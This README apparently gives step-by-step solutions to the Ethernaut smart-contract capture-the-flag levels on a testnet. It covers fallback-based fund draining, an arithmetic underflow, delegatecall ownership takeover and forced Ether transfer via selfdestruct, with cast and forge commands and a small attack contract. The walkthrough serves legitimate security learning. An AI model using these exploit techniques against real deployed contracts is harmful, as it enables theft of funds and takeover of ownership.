 # Ethernaut-ctf-solutions
i'm using sepolia testnet for the transactions, u can choose testnet accordingly. All the instance code is in instances folder.

## level00 - Hello Ethernaut
  1. As we can see all the functions are directing us to authenticate() fun. where we need to
     enter password.
  2. we can get the password from console
     ```
     await contract.password()
     ```
  3. then we can either use console
     ```
     await contract.authenticate("ethernaut0")
     ```
     or run our script file level00.s.sol
     ```
     forge script ./script/level00.s.sol broadcast -vvvv --rpc-url $RPC_URL --private-key $PKEY
     ```
  4. submit the instance, u're done

## level01 - Fallback
  1. our main goal here is to be the owner and drain the contract balance, we         can do this by two ways
     1. either keep contributing using contribute() to make your contribution 
        more then the current owner and use withdraw() which is not a feasible 
        solution obvi.
     2. or we can use the receive() fun. where we need to fulfill two basic              conditions, msg.value>0 and contibutions[msg.sender]>0 , which is 
        comparatively easy, then use withdraw(), so proceeding with this option
  2. first we can use contribute() fun. to send some wei then use low level call
     function to make our msg.value>0
  3. As both condition satisfies, we'll be the owner , now all we need to do is
     use withdraw() to get all the funds out.
  4. checkout level01.s.sol for the code, run the script file on testnet
     ```
     forge script ./script/level01.s.sol broadcast -vvvv --rpc-url $RPC_URL --private-key $PKEY
     ```
  5. submit the instance , u're done
     
## level02 - Fallout
  1. same as previous one we need to get the ownership here
  2. we can achieve that by simply calling Fal1out() either from the console
     ```
     await contract.Fal1out()
     ```
     or using script file level02.s.sol
  3. submit the instance, u're done.
     
## level05 - Token
  1. the goal here is to get our hands on any additional token
  2. vulnerability lies here in the 2nd line of transfer function where it is 
     deducting msg.sender's balance, as this contract uses older version of
     solidity it is prone to underflow/overflow.
  3. so the hack is we'll cause an underflow by sending 21 tokens which will make
     balance[msg.sender] = 20 - 21 = max limit for uint256, and increase it by a      large value
  4. we can do this by calling transfer function either thru cast send command
     ```
     cast send $LEVEL_ADDRESS "transfer(address _to, uint256 _value)" 0xb364AC25023f1859df404e4AE9aeC80Ab425b0C7 21 --rpc-url $RPC_URL --private-key $PKEY
     ```
     or using our script file level05.s.sol
     ```
     forge script ./script/level05.s.sol broadcast -vvvv --rpc-url $RPC_URL --private-key $PKEY
     ```
  5. submit the instance, u're done.
     
## level06 - Delegation
  1. our goal here is to claim ownership of the given instance which we can do 
     using pwn() fun.
  2. We need to trigger the fallback function in the Delegation contract to           invoke the pwn() function via msg.data which will then make a delegate
     call to pwn() and make msg.sender the owner.
  3. to do this first we need to get methodId of pwn()
     ```
     cast calldata "pwn()"
     ```
     then call the fallback fun.
     ```
     cast send $LEVEL_ADDRESS 0xdd365b8b --gas-limit 50000 --rpc-url $RPC_URL --private-key $PKEY
     // we need to set a custom gas limit for this transaction as the default amount insufficient
     ```
  4. send the transaction, submit instance, u're done 
     
## level07 - Force 
  1. here we need to increase the balance of our contract, but neither it has         any recieve() or fallback() fun. , so what we gonna use is selfdestruct()
  2. preferably, we'll use remix as new versions of solidity doesn't support 
     selfdestruct(), source code:
     ```
     // SPDX-License-Identifier: MIT
     pragma solidity ^0.6.0;
      
     contract Forced{
         constructor () public payable {
             selfdestruct(0x2BA0bf631A0c17C516D74634E24fCA5Fff21575f); //level add.
         }
     }
     ```
  3. we'll send some eth at deployment time to increase contract balance and cuz      of selfdestruct all this will go to Force contract 
  4. we're using selfdestruct() in constructor itself, so it can operate at           deployment time and we don't need to call any other function
  5. submit the instance after deployment, u're done.

     
